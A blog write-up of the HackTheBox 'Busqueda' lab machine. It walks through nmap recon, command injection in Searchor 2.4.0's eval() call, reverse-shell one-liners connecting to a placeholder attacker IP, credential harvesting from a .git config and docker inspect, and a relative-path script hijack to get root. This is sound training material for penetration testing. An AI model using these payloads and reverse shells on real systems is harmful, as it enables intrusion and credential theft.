










+++
date = '2025-07-07T12:02:55+01:00'
draft = true
title = 'HTB: Busqueda'
categories = ["HackTheBox", "Writeups",  "Busque­da",
    "Linux",
    "Easy‑level",
    "Web App",
    "Python RCE",
    "Command‑Injection",
    "Searchor 2.4.0",
    "Reverse‑Shell",
    "Gitea",
    "Git config creds",
    "SSH svc login",
    "Docker enumeration",
    "Privilege Escalation",
    "Relative Path Hijack"]
+++
<center></center>

A marked easy machine that involves exploiting a python eval statement in Searchor 2.4.0 to gain foothold, finding a gitea server and a .git folder; thus finding cleartext credentials, following which you find some administration scripts. Exploiting said administration scripts leads to root.

<!--more-->


## Information Gathering

As always, we begin with a comprehensive nmap scan to gather information about the machine.

```bash
sudo nmap -sV -sC -oA report -p- $target -vv --min-rate 10000
```

The output is as follows:

```plaintext
# Nmap 7.97 scan initiated Mon Jul  7 12:37:10 2025 as: nmap -sV -sC -oA report -p- -vv --min-rate 10000 10.129.228.217
Increasing send delay for 10.129.228.217 from 0 to 5 due to 870 out of 2899 dropped probes since last increase.
Increasing send delay for 10.129.228.217 from 5 to 10 due to 1820 out of 6065 dropped probes since last increase.
Increasing send delay for 10.129.228.217 from 20 to 40 due to 496 out of 1651 dropped probes since last increase.
Increasing send delay for 10.129.228.217 from 40 to 80 due to 903 out of 3009 dropped probes since last increase.
Increasing send delay for 10.129.228.217 from 80 to 160 due to 789 out of 2628 dropped probes since last increase.
Nmap scan report for searcher.htb (10.129.228.217)
Host is up, received echo-reply ttl 63 (0.099s latency).
Scanned at 2025-07-07 12:37:10 BST for 22s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Searcher
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /opt/homebrew/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  7 12:37:32 2025 -- 1 IP address (1 host up) scanned in 22.43 seconds
```

This already reveals to us that the intended route is to exploit the web server first, find credentials and login to the ssh server. Visiting the website, we see the following: {}Don't forget to add the IP Address in `/etc/hosts` linked to `searcher.htb`; The server automatically redirects to the same upon entering the IP Address{}.


Interesting to note is the footer which shows the tech stack being used:


From the github description: Searchor is an all-in-one PyPi Python Library that simplifies web scraping, obtaining information on an topic, and generating search query URLs. Searchor is an a efficient tool for Python developers, with many web development needs in one, with support of over 100+ Engines and custom engines allowed, making it easy for developers to use for their web programming needs in Python without relying on many third-party dependencies. Furthermore, Searchor has a wide range of support, including command line interface and pip.

Searching on Google for vulnerabilities related to Searchor 2.4.0, we find the very interesting [CVE-2023-43364](https://nvd.nist.gov/vuln/detail/cve-2023-43364), which tells us that Searchor < 2.4.2 use an eval statement in its code and the query we feed directly goes into the eval statement.

Looking at the [PoC GitHub](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) repository, we see that the vulnerable code is as follows:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
```

Already alarms are ringing off. `eval()` is a dangerous function that executes the string passed to it as Python code. This means that if we can control the `query` parameter, we can execute arbitrary commands on the server. Which we can.

## Gaining Foothold

To exploit this vulnerability, craft a very specific payload string that will
- Close the string
- Do what we want it to do on the system (i.e. a reverse shell)
- Concatenate the first string, the system output and then the third empty string to close the eval statement.

The payload we will use, for testing first, is as follows:

```plaintext
' + __import__('os').system('id') + '
```

This gives us:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('' + __import__('os').system('id') + '', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
```

Which gives the output:


We now have Remote Code Execution (RCE) on the server. To get a reverse shell, we can use the following payload:

```plaintext

' + __import__('os').system("""export RHOST="<IP ADDRESS>";export RPORT=<PORT>;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'""") + '
```
{} Make sure to replace `<IP ADDRESS>` and `<PORT>` with your own IP address and port number. {}

Website becomes stuck, and if you have a listener running with the right IP address and port in the payload, you will get a reverse shell.


Great! We now have a reverse shell. However, we are still a low privileged user. Now comes the difficult part: Privilege Escalation. {} If you just want the user.txt, you can find it using `cd  ~` {}

## Privilege Escalation

Before we can do that, we need to know what user we are and what we can run as sudo. 
`whoami` gives us:
```bash
svc
```

Not very useful. Let's check what we can run as sudo:

```bash
sudo -l
```

And we quickly run into a problem. We don't have a password and checking `sudo -l` requires password for even the lower privileged account.

Looking around, we see a scripts folder in `/opt/scripts/`. Inspecting the contents, we see a bunch of scripts that are execute only. We can't read, write or execute without sudo.



These will come in handy later. For now, let's look where we landed right after the reverse shell. `pwd` gives us `/var/www/app` and running `ls -la` gives us the following:



We see a `.git` folder. Very useful. Let's look at the `config` file in the `.git` folder:

```bash
cat .git/config
```

Which gives us a very useful piece of the puzzle:



We see that there's a user called `cody` and a password attached to it. Just for kicks, let's try `sshing` into this server with `svc` and the password we found in the `.git/config` file, and we see that it works!



Following this, we can now run `sudo -l` and see what we can run as sudo:




Great! Obviously, we can't read the contents of the scripts so we have no way of understanding how to exploit them. But just for kicks, let's try running the one script we can run as sudo:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This shows what arguments are allowed which are:

- docker-ps
- docker-inspect
- full-checkup


Running docker-ps gives us:



Running full-checkup gives us:   {} This doesn't work unless you `cd` into `/opt/scripts/` first, a clue to what's coming {}



And after viewing the documentation for docker-inspect we craft the following command:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea | jq
```

The first part is what's allowed to us. Second part is the what we want to see and the format, third part is the container name. The command after the pipe formats the output to be more readable. The output is as follows:



We see database credentials, which we can use to login to the gitea server. Looking back into `.git/config` file, we see that the gitea server is running on `gitea.searcher.htb`. So we can login to the gitea server using the credentials we found in the `.git/config` file as `administrator`.



Going over to the scripts repository, we see that they are the same scripts we saw in the `/opt/scripts/` folder. We can now read the contents of the scripts and see what they do, and hopefully figure out how to exploit the scripts to get root.

Here's the contents of the `system-checkup.py` script:

```python
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
            _format = sys.argv[2]
            if len(_format) == 0:
                print(f"Format can't be empty")
                exit(1)
            container = sys.argv[3]
            arg_list = ['docker', 'inspect', '--format', _format, container]
            print(run_command(arg_list)) 
        
        except IndexError:
            print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
            exit(1)
    
        except Exception as e:
            print('Something went wrong')
            exit(1)
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
            

if __name__ == '__main__':

    try:
        action = sys.argv[1]
        if action in actions:
            process_action(action)
        else:
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

On first instinct, you may be tempted to mess with the subprocess.run(). However, it receives the commands we pass in the command line as a list, so we can't inject anything there. However, looking at full-checkup, we see that it runs a script called `full-checkup.sh`. Even without looking at the contents of the script, we notice one very important thing. The script is specified using relative path (`./`), i.e relative to where we are at the time of running the script. This means that we can create a script with the same name as in the `/opt/scripts/` folder and it will be executed instead of the original script.

This is the full-checkup.sh script that we will create in /home/svc:

```bash
#!/bin/bash

export RHOST="<IP ADDRESS>";export RPORT=<PORT>;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

{} Make sure to replace `<IP ADDRESS>` and `<PORT>` with your own IP address and port number. {}

If you have a netcat listener up and running, run 

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
And you will get a reverse shell as root!




# Conclusion

Overall a very fun machine that involves exploiting an eval statement. I'll be completely honest, I did refer to the 0xdf write-up every once in a while when I got a stuck because of how green I am. But definitely a good learning machine, especially considering it's on the TJNull list of machines, a must do for preparing for OSCP!


